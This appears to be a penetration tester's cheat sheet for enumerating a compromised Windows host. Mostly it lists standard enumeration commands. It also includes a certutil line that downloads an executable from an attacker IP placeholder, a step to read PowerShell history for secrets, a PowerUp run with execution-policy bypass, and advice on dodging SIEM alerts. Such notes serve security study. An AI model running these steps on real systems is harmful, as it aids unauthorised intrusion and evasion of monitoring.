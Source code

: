 # basic enumeration of windows
- C:/windows/tasks     -   is a common (ALL) READ/WRITE directory
- winPEAS exists
- seatbelt exists
- `find` command exists, does it ? YES
- `cacls FILENAME`  access control lists; deprecated but sometimes has info

## notable files
> etc hosts
```
c:\Windows\System32\Drivers\etc\hosts
```

> powershell history
```
C:\Users\%userprofile%\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine
```



## the classics
```cmd.exe
systeminfo

wmic qfe get Caption, Description
; installed updates, hotfixes etc

net start
; started and installed services

wmic product get name,version,vendor
; installed apps

whoami /all  # (includes, /privs and /groups)
net user, net user /domain
net localgroup, net localgroup  GROUPNAME

net account, net accounts /domain  
; Get password policy info, among other stuff

```
> note that most of these are alarmed by the SIEM, especially those which enumerate the domain. powershell equivalents might be the way to go?


## network
> ports in use; all, binary(name of exe), no-resolve numbers, PID
```
netstat /?
netstat -abno
# -b is the valuable flag here, resolves binary name
```

> network interfaces, is this multi-homed?
```
ipconfig
```

> discover peers via pingsweep
```
PINGSWEEP SCRIPT, or manually
ping -a the results
```

> discovery peers, alternative to pingsweep, MAY BE ALARMED
```
arp -a
```

> host file, may reveal information
```
c:\Windows\System32\Drivers\etc\hosts
```


## cmd

> when enumerating through RCE; particularly useful for pulling/serving with certutil
```
cmd.exe /C 																			; executes a command in cmd.exe, similar to powershell -c
cmd.exe /C certutil -urlcache -split -f http://<MY_IP>/NAME_FILE.exe OUTFILE.exe 	; example of serving
```


> basic enumerations; drop these commands when you initially land
```sh
powershell> dir env: 								; list env vars for current user; excellent info here
whoami /all  (or /priv)
systeminfo
type C:\Users\USER_NAME\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
```

> serving files 
```sh
certutil -urlcache -split -f http://<MY_IP>/NAME_FILE.exe OUTFILE.exe 				; may not needs -split
```




## powershell
> initial enumerations
```
get-localuser															; lists users
get-localgroup															; lists groups
get-childitem -recurse -Depth 1											; nice way to get "tree" output
get-acl FILENAME
acl																		; shows owner+other stuff on directory/object pointed at
Get-Service | Where-Object -Property Status -eq Running 				; current running processes	 
```

> serving files
```
all cmd commands should work
also `wget` is a common alias which creates the `Invoke-WebRequest` powershell equivalent
```



> find command
```
get-childitem -force -recurse -path C:\ -errorACtion SilentlyContinue -include *SEARCH_TERM*
https://devblogs.microsoft.com/scripting/use-windows-powershell-to-search-for-files/ 
```

> grep equivalent; this will search entire filesystem; albeit with a lot of terminal noise
```
Get-ChildItem C:\* -recurse | Select-String -pattern SEARCH_TERM
```

## using common scripts
### PowerUp.ps1
```powershell
-ep bypass
import-module powerup.ps1 # or w.e u named it
invoke-allchecks          # this is a method defined in powerup.ps1
```
